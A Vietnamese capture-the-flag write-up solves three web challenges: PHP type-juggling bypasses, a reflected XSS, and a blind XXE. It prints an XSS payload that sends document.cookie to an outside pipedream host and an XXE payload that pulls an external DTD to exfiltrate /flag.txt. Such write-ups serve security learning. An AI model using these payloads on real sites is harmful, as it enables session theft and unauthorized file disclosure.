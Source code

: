 # WEB

## Phpri Phprai

Đề bài: http://47.254.251.2:8889

Source code: 
```
<?php
    include 'config.php';
    show_source("index.php");
    error_reporting(0);
    if(isset($_GET["1"]) && isset($_GET["2"])) {
        $str1 = $_GET["1"];
        $str2 = $_GET["2"];
        if(($str1 !== $str2) && (md5($str1) == md5($str2))) {
            echo $flag1;
        }
    }
    if(isset($_GET["3"])) {
        if( strcmp( $_GET['3'], $$flag ) == 0) {
            echo $flag2;
        }
    }
    if(isset($_GET["4"])) {
        $str4 = $_GET["4"];
        $str4=trim($str4);
        if($str4 == '1.4e5' && $str4 !== '1.4e5') {
            echo $flag3;
        }
    }
    if(isset($_GET["5"])) {
        $str5 = $_GET["5"];
        if($str5 == 69 && $str5 !== '69' && $str5 !== 69 && strlen(trim($str5)) == 2) {
            echo $flag4;
        }
    }
    if(isset($_GET["6"])) {
        $str6 = $_GET["6"];
        $var1 = 'KaCeEtCe';
        $var2 = preg_replace("/$var1/", '', $str6);
        if($var1 === $var2) {
            echo $flag5;
        }
    }
?>
```

Flag được chia thành 5 phần:

**Flag1**: Ta cần tìm 2 chuỗi giá trị khác nhau nhưng hash md5 bằng nhau. 

Ở đây ta có 2 cách: 

Cách 1 là nhập vào 2 mảng: 1[] = a và 2[] = b sao cho a và b là 2 giá trị khác nhau. Khi đó nó trở thành: $_GET["1"] = array([0] => a) và $_GET["2"] = array([0] => b), khi hash md5 1 array thì kết quả trả về Null, nên so sánh 2 giá trị hash là bằng nhau. 

Cách 2 là search google với keyword md5 hash collision và tìm thấy 2 chuỗi `240610708` và `QNKCDZO` cho ra giá trị băm md5 được so sánh == là giống nhau. Do khi hash md5 2 giá trị này nó ra dạng 0e..., chúng cùng = int(0) nên với so sánh lỏng lẻo (==) thì 2 giá trị này bằng nhau. 

=> Payload1: http://47.254.251.2:8889/?1=240610708&2=QNKCDZO

Nhận được Flag1: `KCSC{B0_u_Bu_S4`

**Flag2**: Ta cần tìm 1 chuỗi sao cho so sánh (strcmp()) với $flag là giống nhau
Flag chỉ gồm 5 phần từ $flag1-5 nên $flag khả năng mang giá trị rỗng, nên mình thử nhập ?3='' thì ra luôn flag2. Ngoài ra, ta có thể dùng nhập mảng rỗng hoặc không nhập gì cũng cho ra flag2. 

=> Payload2: http://47.254.251.2:8889/?3[]=''

Nhận được Flag2: `C_8usssssss_htt`

**Flag3**: Ta cần tìm chuỗi sao cho khác 1.4e5 nhưng so sánh lỏng lẻo (==) thì bằng 1.4e5

Ở đây 1.4e5 = 1.4*10^5 nên ta có thể thay thành 0.14e6, 14e4, 140e3, 1400e2,... đều ra được flag3.

=> Payload3: http://47.254.251.2:8889/?4=14e4

Nhận được Flag3: `ps://www.youtub`

**Flag4**: Tương tự flag trước, ta cần tìm 1 chuỗi sao cho khác 69 nhưng so sánh lỏng lẻo (==) thì bằng 69 và độ dài chuỗi sau khi loại bỏ ký tự space trái phải bằng 2.

Ta nhập thêm 1 ký tự space vào trước 69 và URL Encode thành %2069 là thỏa mãn yêu cầu

=> Payload4: http://47.254.251.2:8889/?5=%2069

Nhận được Flag4: `e.com/watch?v=x`

**Flag5**: Cần tìm 1 chuỗi sao cho khi preg_replace đi 1 lần KaCeEtCe thì vẫn so sánh bằng tuyệt đối với KaCeEtCe.

Vậy ta chỉ cần chèn KaCeEtCe vào giữa KaCeEtCe là được chuỗi cần tìm

=> Payload5: http://47.254.251.2:8889/?6=KaCeKaCeEtCeEtCe

Nhận được Flag5: `QtC3F8fH6g}`

Payload hoàn chỉnh là: http://47.254.251.2:8889/?1=240610708&2=QNKCDZO&3[]=''&4=14e4&5=%2069&6=KaCeKaCeEtCeEtCe

Flag: `KCSC{B0_u_Bu_S4C_8usssssss_https://www.youtube.com/watch?v=xQtC3F8fH6g}`


## Hi Hi Hi

Đề bài: http://146.190.115.228:20109/

Web có chức năng nhập vào 1 message lời chúc và hiển thị message đó lên trang web. Bên dưới là chức năng gửi report tới localhost của Webserver. 

![image](https://user-images.githubusercontent.com/80137840/213621541-2e31e7bc-eaa7-45c8-ac11-e187636f29b8.png)

Khả năng web bị dính XSS. Thử nhập 'abc' ta thấy message được hiển thị trong thẻ div

![image](https://user-images.githubusercontent.com/80137840/213621798-cc399b9b-cc64-482e-831b-5625caba4fa7.png)

Thử 1 số payload XSS thì web bị XSS với payload đơn giản: `<svg onload=alert('XSS')>`

![image](https://user-images.githubusercontent.com/80137840/213622177-11686f14-2bb1-4d60-8294-fc1cd46bae82.png)

Khai thác XSS lấy cookie bằng cách gửi message report tới Server với payload như sau:

`http://127.0.0.1:13337/?message=<svg%20onload="window.location=%27https://eolqec95un0vjzg.m.pipedream.net/?cookie=%27%2B(document.cookie)">`

![image](https://user-images.githubusercontent.com/80137840/213625305-3fd8f1dc-9520-47a9-8ef0-5df99b9644bd.png)
    
Và nhận được flag:

![image](https://user-images.githubusercontent.com/80137840/213625487-a173ebe1-2f87-4566-8f4f-cb989c99a5e8.png)

Flag: `KCSC{T3T_TU1_3_T13P_Hmmmmmmmm}`
    
    

## XXD

Đề bài: http://146.190.115.228:13373/

Bài này cho 1 form nhập thông tin và Submit

![image](https://user-images.githubusercontent.com/80137840/213668883-c8f23281-cc5b-45cd-ac0a-a735ac4c7531.png)

Thử nhập thông tin và kiểm tra request submit

![image](https://user-images.githubusercontent.com/80137840/213671848-f3b11c8d-224e-4d05-8a45-37299b768a52.png)

Thông tin được gửi đi dưới dạng XML nên khả năng là lỗi XXE. Ngoài ra, response trả về có status = 1 nên đây là blind XXE.

Sau khi thử 1 vài payload trên [Payloads All The Things](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/XXE%20Injection) thì mình thấy có 1 payload khai thác thành công là [XXE OOB with DTD and PHP filter](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/XXE%20Injection#xxe-oob-with-dtd-and-php-filter)

Tạo DTD trên pastebin với flag location là /flag.txt: [maliciousDTD](https://pastebin.com/raw/wUE4Wbyb)

![image](https://user-images.githubusercontent.com/80137840/213678940-a304069f-2215-4c27-b1f6-c7c88a5882d2.png)

Inject đoạn XML vào request gửi lên Server:

```
<!DOCTYPE r [
<!ELEMENT r ANY >
<!ENTITY % sp SYSTEM "https://pastebin.com/raw/wUE4Wbyb">
%sp;
%param1;
]>
<r>&exfil;</r>
```

![image](https://user-images.githubusercontent.com/80137840/213679485-4bf7c812-f132-42c1-a8db-aed83a167b0a.png)

Và nhận được nội dung file /flag.txt

![image](https://user-images.githubusercontent.com/80137840/213679703-e43d62f7-442f-4ffe-9889-08eeaac4b31d.png)

Decode base64 ta nhận được flag:

![image](https://user-images.githubusercontent.com/80137840/213679811-7b8587dd-8c4c-43b2-993a-7bf987ac401d.png)

Flag: `KCSC{blind_xxD_xxO_xx]_xxe!!@#@}`





